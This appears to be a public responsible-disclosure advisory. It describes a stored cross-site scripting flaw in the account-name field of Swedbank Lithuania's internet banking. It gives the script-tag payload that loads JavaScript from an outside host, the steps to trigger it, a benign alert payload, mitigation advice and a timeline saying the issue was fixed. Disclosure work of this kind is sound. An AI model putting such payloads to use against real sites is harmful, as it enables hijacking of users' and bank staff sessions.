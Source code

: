 SWEDBANK: Stored-Cross-Site-Scripting vulnerability in Retail Banking application
=================================================================================

Description
-----------
A regular authenticated internet banking user has an option to set a bank’s account name to anything arbitrary with char limit of 35. The internet baking application hosted at https://www.swedbank.lt/private is vulnerable to a Stored-Cross-Site-Scripting attack in the this account name field. 
A malicious actor can set a specially crafted payload and save it to the own account. It is possible that other system’s users (banking personnel, call centre stuff etc.) who work regularly with retail clients could “find” this malicious payload while observing a specific account through routine tasks or on demand calls. This would lead to compromise other users and elevate privileges for an attacker.

Proof-of-Concept
----------------
Authenticate to the web application at:
https://www.swedbank.lt/private

Then open the bank’s account setting page at:
https://www.swedbank.lt/private/home/important/aliases
(pageId = private.home.important.aliases)

Then change any account name to this payload:
`A<script src=“//p0wn.eu”></script>`
And save the user input form.

*Note* To make an isolated check from external network a simple hint can be used:
Point any short domain with a name like `p0wn.eu` and write an IP resolution into the system’s `hosts` file. Then host any JS payload on the HTTPS web server.

Next a user (a victim) must visit the following page from the main menu:
```
1. Privatiems ▸
2. Kasdienės paslaugos ▸
3. Apžvalga
```

(English)
```
1. Private ▸
2. Everyday banking ▸
3. My finances
```
Reference url: 
https://www.swedbank.lt/private/d2d/accounts/overview

Or in mobile application goto
```
1. Paslaugos ▸
2. Kitos paslaugos ▸
3. Mano finansų apžvalga
```

(English)
```
1. Services ▸
2. Other services ▸ 
3. Summary of my finances
```

Then the payload is executed (pictures included).

The issue with unfiltered user input and fail to sanitise output in the web content can lead to high security incidents since an attacker can invoke and launch various JS scripts or JS frameworks like BeEF (The Browser Exploitation Framework https://beefproject.com/) in the context of a user or other system’s users (banking personnel, call center stuff etc.) who work regularly with retail clients.

Payload server `p0wn.eu` content:
```
HTTP/1.1 200 OK
Server: Apache
Accept-Ranges: bytes
Content-Length: 23
Connection: close
Content-Type: application/javascript

alert(document.domain);
```
Mitigation
----------
Do a proper HTML Sanitisation for user input and page rendering afterwards.

Reference
---------
https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html


TIMELINE
--------
```
2023-10-15 DISCOVERED VULNERABILITY
2023-10-16 A REPORT CREATED AND SENT TO responsible-disclosure@swedbank.com
2023-10-16 AUTOREPLY RECIEVED
2023-12-14 CONTACTED OVER LinkedIn (Head of Offensive Cyber Security at Swedbank)
2023-12-14 REPLY RECEIVED
2023-12-14 RECEIVED CONFIRMATION THAT ISSUE WAS RESOLVED
2024-01-01 Public release
```
